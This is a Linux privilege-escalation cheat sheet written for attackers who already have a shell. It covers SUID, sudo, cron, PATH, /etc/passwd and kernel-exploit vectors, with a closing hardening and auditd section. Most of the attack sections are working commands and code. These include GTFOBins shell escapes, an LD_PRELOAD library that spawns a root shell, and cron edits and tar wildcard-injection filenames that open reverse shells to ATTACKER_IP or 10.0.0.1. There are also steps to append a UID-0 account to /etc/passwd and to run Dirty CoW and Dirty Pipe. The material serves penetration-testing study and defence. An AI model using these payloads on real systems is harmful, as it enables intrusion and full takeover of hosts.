



# Linux Privilege Escalation

> **Scope:** Local privilege escalation (LPE) — attacker already has a shell as an unprivileged user and wants to reach `root` (UID 0).

---

## 1. Escalation Taxonomy



| Vector | Pre-condition | Reliability |
|--------|---------------|-------------|
| SUID binary | Misconfigured binary on disk | High |
| sudo misconfiguration | /etc/sudoers error | High |
| Cron abuse | World-writable script scheduled as root | High |
| PATH hijacking | Root script calls binary without full path | Medium |
| Writable /etc/passwd | File permissions wrong | High |
| Kernel exploit | Unpatched kernel (CVE) | Medium–Low |

---

## 2. SUID Binaries

### File Mode Bits

```
Octal layout (12 bits):
  Bit 11 (4000) = SUID   → process runs as file owner
  Bit 10 (2000) = SGID   → process runs as file group
  Bit  9 (1000) = Sticky
  Bits 8–0      = rwxrwxrwx (owner/group/other)

Example: -rwsr-xr-x = 4755
  4000 (SUID) + 755 (rwxr-xr-x) = 4755

Effect:
  Normal:  effective UID = caller UID
  SUID set: effective UID = file owner UID (often root → UID 0)
```

### Enumerate SUID Binaries

```bash
# Find all SUID binaries
find / -perm -4000 2>/dev/null

# Find SUID + SGID
find / -perm /6000 2>/dev/null

# Show owner alongside
find / -perm -4000 -exec ls -la {} \; 2>/dev/null
```

### GTFOBins Exploitation Examples

**vim** (SUID set, owner = root):
```bash
# vim spawns shell inheriting effective UID = root
vim -c ':py3 import os; os.execl("/bin/bash", "bash", "-p")'
# or
vim -c ':!/bin/bash -p'
```

**find** (SUID set):
```bash
find . -exec /bin/bash -p \; -quit
# -p = privileged mode, does not drop SUID euid
```

**python3** (SUID set):
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Verification — confirm you have root:**
```bash
id
# uid=1000(user) gid=1000(user) euid=0(root)
whoami   # root
```

---

## 3. sudo Misconfiguration

### Enumeration

```bash
sudo -l          # list allowed commands for current user
cat /etc/sudoers # if readable
```

### NOPASSWD Python Escalation

`/etc/sudoers` entry:
```
user ALL=(ALL) NOPASSWD: /usr/bin/python3
```

Exploit:
```bash
sudo /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Wildcard Dangers

```
# Dangerous wildcard in sudoers:
user ALL=(ALL) NOPASSWD: /usr/bin/vi /var/log/*

# Attacker supplies a crafted path:
sudo /usr/bin/vi /var/log/../../../../etc/shadow
# vi can then :w to overwrite or :!bash to spawn shell
```

### LD_PRELOAD Abuse (env_keep)

`/etc/sudoers`:
```
Defaults env_keep += "LD_PRELOAD"
user ALL=(ALL) NOPASSWD: /usr/bin/find
```

Exploit:
```c
// evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -o /tmp/evil.so /tmp/evil.c -nostartfiles
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/find
# __attribute__((constructor)) runs before main → root shell
```

### Common Dangerous Commands in sudoers

| Command | Exploit method |
|---------|---------------|
| `vim`, `nano`, `less` | `:!/bin/bash` or shell escape |
| `python`, `ruby`, `perl` | `os.system("/bin/bash")` |
| `find` | `-exec /bin/bash \;` |
| `awk` | `BEGIN {system("/bin/bash")}` |
| `tar` | `--checkpoint-action=exec=/bin/bash` |
| `cp` | Overwrite `/etc/sudoers` or `/etc/passwd` |
| `chmod` | `chmod +s /bin/bash` |

---

## 4. Cron Job Abuse

### World-Writable Script Flow



**Detection:**
```bash
cat /etc/crontab
ls -la /etc/cron.*
crontab -l
# Check for world-writable scripts:
find /etc/cron* /var/spool/cron -type f 2>/dev/null | xargs ls -la
```

**Exploit:**
```bash
# Confirm script is world-writable
ls -la /opt/backup.sh   # -rwxrwxrwx

# Append reverse shell (preserving original to avoid detection)
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /opt/backup.sh

# Or replace entirely
echo '#!/bin/bash' > /opt/backup.sh
echo 'chmod +s /bin/bash' >> /opt/backup.sh
# Wait for cron → /bin/bash -p → root
```

### Wildcard Injection

**tar in cron:**
```bash
# /etc/crontab:
# * * * * * root tar czf /backup/files.tar.gz /opt/data/*

# Attacker creates files in /opt/data/ with special names:
touch '/opt/data/--checkpoint=1'
touch '/opt/data/--checkpoint-action=exec=bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'

# tar expands * → passes these as CLI flags → executes command as root
```

**rsync in cron:**
```bash
# cron: rsync -a /data/* user@backup:/remote/
# Inject:
touch '/data/-e sh shell.sh'
echo 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1' > /data/shell.sh
```

---

## 5. PATH Hijacking

```mermaid
graph LR
    RS[root script<br/>/opt/admin.sh]
    RS -->|calls 'service restart'<br/>no full path| LOOKUP[shell PATH lookup]

    LOOKUP -->|checks /tmp first| EVIL[/tmp/service<br/>attacker binary]
    LOOKUP -.->|never reaches| REAL[/usr/sbin/service<br/>real binary]

    EVIL -->|executes as root| ROOT[root shell]

    style ROOT fill:#c0392b,color:#fff
    style EVIL fill:#e67e22,color:#fff
```

**Setup:**
```bash
# Root's vulnerable script (/opt/admin.sh):
# #!/bin/bash
# service apache2 restart    ← no /usr/sbin/ prefix

# Attacker:
echo '#!/bin/bash' > /tmp/service
echo 'chmod +s /bin/bash' >> /tmp/service
chmod +x /tmp/service

# Prepend /tmp to PATH before invoking (or if PATH is inherited):
export PATH=/tmp:$PATH

# Trigger the root script (via sudo, cron, or SUID):
sudo /opt/admin.sh   # or wait for cron

# Then:
/bin/bash -p   # → root
```

**Find scripts calling commands without full path:**
```bash
grep -r "^\(service\|python\|perl\|ruby\|find\)" /opt/ /usr/local/ 2>/dev/null
# Look for invocations without leading /
```

---

## 6. Writable /etc/passwd

### Why It Works

```
/etc/passwd format:
  username:password:UID:GID:comment:home:shell

  UID=0, GID=0 → root privileges regardless of username
  password field: 'x' means check /etc/shadow
                  direct hash → used directly (no shadow lookup)
```

### Exploit

```bash
# Check if writable (should be -rw-r--r-- 644, root-owned):
ls -la /etc/passwd   # if -rw-rw-rw- or owned by our user → exploitable

# Generate password hash (md5crypt):
openssl passwd -1 -salt xyz hacked
# $1$xyz$... (md5crypt)

# Alternatively, use a known hash for password "hacked":
HASH='$1$xyz$WkHDsl.m5KqN5GKBO7WqB/'

# Append new root-equivalent user:
echo "hacker:${HASH}:0:0:pwned:/root:/bin/bash" >> /etc/passwd

# Switch to new root user:
su hacker   # password: hacked
id          # uid=0(root)
```

### Hash Math

```
md5crypt (format $1$salt$hash):
  hash = MD5( password + salt + password + ... ) iterated
  cost: ~1000 iterations → weak by modern standards
  entropy: 2^(8 * len(password)) possible inputs
  crack time (GPU): ~10^9 hashes/sec → 8-char password ≈ seconds

Better: sha512crypt ($6$) — 5000 iterations default
  openssl passwd -6 -salt xyz hacked
```

---

## 7. Kernel Exploits

### Race Condition Model

```
TOCTOU (Time-Of-Check to Time-Of-Use):

  Thread A (attacker):          Thread B (kernel):
  ─────────────────────         ──────────────────────
                                check: is mapping read-only? YES
  madvise(MADV_DONTNEED) ──→    [cache evicted]
                                use:  write to mapping  ← writes to /etc/passwd!

  Race window = time(use) - time(check)
  P(win) = race_window / scheduling_quantum

  Dirty CoW: race_window ≈ microseconds
  Exploit runs in loop → P(win per loop) small but P(win total) → 1
```

### CVE-2016-5195 — Dirty CoW

```
Affected: Linux kernel < 4.8.3 (patched Oct 2016)
Bug: Race in mm/gup.c get_user_pages() — copy-on-write mapping
     can be written by unprivileged user via /proc/self/mem

Impact: Write to any read-only memory-mapped file (e.g., SUID binary,
        /etc/passwd) without triggering CoW isolation.
```

```bash
# Classic exploit — overwrites /etc/passwd root entry
git clone https://github.com/dirtycow/dirtycow.github.io
cd dirtycow.github.io
gcc -pthread dirty.c -o dirty -lcrypt
./dirty <new_root_password>
# Creates a firefart user with UID=0
su firefart
```

### CVE-2022-0847 — Dirty Pipe

```
Affected: Linux kernel 5.8 – 5.16.10 / 5.15.24 / 5.10.101
Bug: pipe_write() in fs/pipe.c — PIPE_BUF_FLAG_CAN_MERGE flag not
     cleared on new pipe buffer. Allows writing to arbitrary
     read-only page-cache pages via splice().

Impact: Overwrite read-only files (e.g., SUID binaries) in page cache
        without file permissions. Does not persist after reboot unless
        written to disk separately.
```

```bash
# PoC — overwrites a SUID binary's bytes in page cache
# https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

gcc dirtypipe.c -o dirtypipe
# Exploit 1: modify SUID binary → gain root shell
./dirtypipe /usr/bin/sudo

# Exploit 2: modify /etc/passwd in page cache
./dirtypipe-2
```

### Kernel Version Enumeration

```bash
uname -r          # kernel version
uname -a          # full info
cat /proc/version
lsb_release -a    # distro + version

# Cross-reference against known CVEs:
# https://www.linuxkernelcves.com/
# searchsploit linux kernel $(uname -r)
```

---

## 8. Defense



### SUID Hardening

```bash
# Audit all SUID binaries — compare against known-good list
find / -perm -4000 2>/dev/null > /tmp/suid_current.txt
diff /tmp/suid_baseline.txt /tmp/suid_current.txt

# Remove SUID from unnecessary binary
chmod u-s /usr/bin/vim.basic

# Lock down with immutable flag (ext4):
chattr +i /usr/bin/vim.basic
```

### sudo Hardening

```bash
# /etc/sudoers best practices:
# ✅ Specific command, specific args, no wildcards:
user ALL=(root) NOPASSWD: /usr/bin/systemctl restart apache2

# ❌ Never:
# user ALL=(ALL) NOPASSWD: ALL
# user ALL=(ALL) NOPASSWD: /usr/bin/vi *

# Disable LD_PRELOAD inheritance:
Defaults env_reset
# Do NOT add env_keep for LD_PRELOAD/LD_LIBRARY_PATH
```

### Cron Hardening

```bash
# Ensure cron scripts are root-owned, not world-writable:
chmod 700 /opt/backup.sh
chown root:root /opt/backup.sh

# Use full paths inside cron scripts:
# ❌ tar czf /backup.tar.gz /data/*
# ✅ /bin/tar czf /backup.tar.gz -- /data/*   (-- prevents flag injection)

# Restrict crontab access:
echo "root" > /etc/cron.allow   # only root can use crontab
```

### /etc/passwd Hardening

```bash
# Correct permissions (should already be this):
chmod 644 /etc/passwd
chown root:root /etc/passwd

# Make immutable (prevents even root from modifying without chattr -i):
chattr +i /etc/passwd
chattr +i /etc/shadow

# Verify:
lsattr /etc/passwd   # ----i--------e-- /etc/passwd
```

### Kernel Hardening

```bash
# Keep kernel updated:
apt update && apt upgrade   # Debian/Ubuntu
yum update kernel           # RHEL/CentOS

# Enable automatic security updates:
apt install unattended-upgrades
dpkg-reconfigure unattended-upgrades

# Restrict unprivileged user namespaces (mitigates many kernel CVEs):
sysctl -w kernel.unprivileged_userns_clone=0
echo "kernel.unprivileged_userns_clone=0" >> /etc/sysctl.conf

# Enable kernel pointer restriction:
sysctl -w kernel.kptr_restrict=2
sysctl -w kernel.dmesg_restrict=1
```

### auditd — Monitor Privilege Escalation Attempts

```bash
# /etc/audit/rules.d/privesc.rules

# Watch SUID execution:
-a always,exit -F arch=b64 -S execve -F euid=0 -F auid>=1000 -k suid_exec

# Watch /etc/passwd writes:
-w /etc/passwd -p wa -k passwd_change
-w /etc/sudoers -p wa -k sudoers_change

# Watch sudo usage:
-w /usr/bin/sudo -p x -k sudo_use

# Check logs:
ausearch -k suid_exec | aureport -i
```

---

## Quick Reference

| Vector | Detect | Exploit | Defend |
|--------|--------|---------|--------|
| SUID binary | `find / -perm -4000` | `./binary -p` or GTFOBins | `chmod u-s`, audit list |
| sudo | `sudo -l` | `sudo python3 -c '...'` | Specific cmds, no wildcards |
| Cron | `cat /etc/crontab` | Overwrite world-writable script | `chmod 700`, full paths |
| PATH | Read root scripts | Malicious binary in `$PATH` | Use `/usr/bin/cmd` in scripts |
| /etc/passwd | `ls -la /etc/passwd` | Append UID=0 entry | `chmod 644`, `chattr +i` |
| Kernel CVE | `uname -r` | Dirty CoW / Dirty Pipe PoC | Patch, `unattended-upgrades` |
| LD_PRELOAD | `sudo -l` + env_keep | Shared lib constructor | `env_reset`, no env_keep |
| Wildcard injection | Cron with `*` glob | Craft filenames as flags | Use `--` separator in scripts |
